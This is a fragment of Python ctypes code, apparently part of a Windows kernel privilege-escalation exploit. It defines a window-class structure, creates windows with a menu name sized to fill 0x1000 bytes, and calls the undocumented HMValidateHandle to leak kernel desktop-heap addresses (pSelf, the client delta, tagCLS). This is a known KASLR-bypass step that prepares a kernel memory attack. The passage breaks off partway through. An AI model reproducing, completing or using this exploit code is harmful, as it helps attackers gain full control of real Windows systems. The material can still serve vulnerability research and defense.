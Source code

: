 ```
                ("lpfnWndProc", WNDPROCTYPE),
                ("cbClsExtra", c_int),
                ("cbWndExtra", c_int),
                ("hInstance", HANDLE),
                ("hIcon", HANDLE),
                ("hCursor", HANDLE),
                ("hBrush", HANDLE),
                ("lpszMenuName", LPCWSTR),
                ("lpszClassName", LPCWSTR),
                ("hIconSm", HANDLE)]

def PyWndProcedure(hWnd, Msg, wParam, lParam):
    """ Callback Function for CreateWindow() """
    # if Msg == WM_DESTROY
    if Msg == 2:
        user32.PostQuitMessage(0)
    else:
        return user32.DefWindowProcW(hWnd, Msg, wParam, lParam)
    return 0

classNumber = 0

def allocate_free_window():
    """ Allocate and Free a single Window """
    global classNumber, pHMValidateHandle

    # Create prototype for HMValidateHandle()
    HMValidateHandleProto = WINFUNCTYPE (c_ulonglong, HWND, c_int)
    HMValidateHandle = HMValidateHandleProto(pHMValidateHandle)

    WndProc = WNDPROCTYPE(PyWndProcedure)
    hInst = kernel32.GetModuleHandleA(0)

    # instantiate WNDCLASSEX 
    wndClass = WNDCLASSEX()
    wndClass.cbSize = sizeof(WNDCLASSEX)
    wndClass.lpfnWndProc = WndProc
    wndClass.cbWndExtra = 0
    wndClass.hInstance = hInst
    wndClass.lpszMenuName = 'A' * 0x7F0 # Size: 0x1000
    wndClass.lpszClassName = "Class_" + str(classNumber)

    # Register Class and Create Window
    hCls = user32.RegisterClassExW(byref(wndClass))
    hWnd = user32.CreateWindowExA(0,"Class_" + str(classNumber),'Franco',0xcf0000,0,0,300,300,0,0,hInst,0)

    # Run HMValidateHandle on Window handle to get a copy of it in userland
    pWnd = HMValidateHandle(hWnd,1)

    #debug_print ("t[+] pWnd: 0x%X" % pWnd)

    # Read pSelf from copied Window
    kernelpSelf = (cast(pWnd+0x20, POINTER(c_ulonglong))).contents.value

    #debug_print ("t[+] kernelpSelf: 0x%X" % kernelpSelf)

    # Calculate ulClientDelta (tagWND.pSelf - HMValidateHandle())
    # pSelf = ptr to object in Kernel Desktop Heap; pWnd = ptr to object in User Desktop Heap
    ulClientDelta = kernelpSelf - pWnd

    # Read tagCLS from copied Window
    kernelTagCLS = (cast(pWnd+0xa8, POINTER(c_ulonglong))).contents.value
```